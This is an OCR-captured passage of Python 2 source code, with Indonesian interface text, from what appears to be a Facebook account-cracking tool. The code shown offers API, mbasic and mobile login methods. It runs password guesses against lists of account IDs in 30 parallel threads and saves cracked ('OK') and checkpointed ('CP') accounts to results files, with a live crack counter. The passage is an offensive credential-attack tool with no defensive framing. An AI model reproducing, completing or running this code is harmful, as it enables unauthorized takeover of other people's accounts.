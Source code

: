                             print '\n [%s+%s] hasil OK disimpan ke -> results/OK-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print ' [%s+%s] hasil CP disimpan ke -> results/CP-%s-%s-%s.txt'%(O,N,ha, op, ta)

                            print '\n [%s!%s] anda bisa mematikan data selular untuk menjeda proses crack\n'%(M,N)

                            with YayanGanteng(max_workers=30) as (__yayanXD__):

                                for ikeh in self.id:

                                    try:

                                        kimochi = ikeh.split('<=>')[1]

                                        __yayanXD__.submit(self.__mfb,__, kimochi, ysc)

                                    except: pass

                            os.remove(self.apk)

                            hasil(ok,cp)

                        else:

                            print '\n %s[%s×%s] input yang bener'%(N,M,N);__yan__()

                    print '\n [ pilih method login - silahkan coba satu² ]\n'

                    print ' [%s1%s]. method API (fast)'%(O,N)

                    print ' [%s2%s]. method mbasic (slow)'%(O,N)

                    print ' [%s3%s]. method mobile (super slow)'%(O,N)

                    __yan__(pwek.split(','))

                    break

        elif ___yayanganteng___ in ('T', 't'):

            print '\n [ pilih method login - silahkan coba satu² ]\n'

            print ' [%s1%s]. method API (fast)'%(O,N)

            print ' [%s2%s]. method mbasic (slow)'%(O,N)

            print ' [%s3%s]. method mobile (super slow)'%(O,N)

            self.__pler__()

        else:

            print '\n %s[%s×%s] Y/t goblok!'%(N,M,N);self.plerr()

        return

    def __api__(self, user, __yan__):

        global ok,cp,loop

        sys.stdout.write('\r [%s*%s] [crack] %s/%s -> OK-:%s - CP-:%s '%(O,N,loop,len(self.id),len(ok),len(cp))),

        sys.stdout.flush()
